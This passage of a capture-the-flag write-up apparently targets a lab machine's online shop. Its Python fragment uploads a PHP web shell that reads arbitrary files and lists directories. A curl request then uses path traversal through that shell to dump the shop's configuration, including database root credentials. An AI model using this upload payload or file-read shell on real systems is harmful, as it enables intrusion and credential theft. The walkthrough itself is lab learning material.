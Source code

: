 Weird. We can change this to run `phpinfo();` instead in case there are functions being blocked. Sure enough, there are tons of blocked functions:

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

Since we weren't able to run commands on this, what we can do instead is get an LFI script going.

```python
files = {
        'vqmod': (rand + ".php", "<?php if (isset($_REQUEST['file'])) {  echo file_get_contents($_REQUEST['file']);} if (isset($_REQUEST['dir'])) {print_r(scandir($_REQUEST['dir']));} ?>", "application/xml"),
        'token':one,
        'upload':(None,"Upload")
```

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Interestingly, the `mysql` user had a shell:

```
mysql:x:111:113:MySQL Server,,,:/var/lib/mysql:/bin/bash
```

Let's try to enumerate the possible `config.php` files.&#x20;

```
$ curl http://10.129.71.208/shop/admin/../vqmod/xml/8IKVU.php?file=/var/www/html/shop/includes/config.inc.php
define('DB_TYPE', 'mysql');
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'changethis');
define('DB_DATABASE', 'ecom');
define('DB_TABLE_PREFIX', 'lc_');
define('DB_CONNECTION_CHARSET', 'utf8');
define('DB_PERSISTENT_CONNECTIONS', 'false');
```
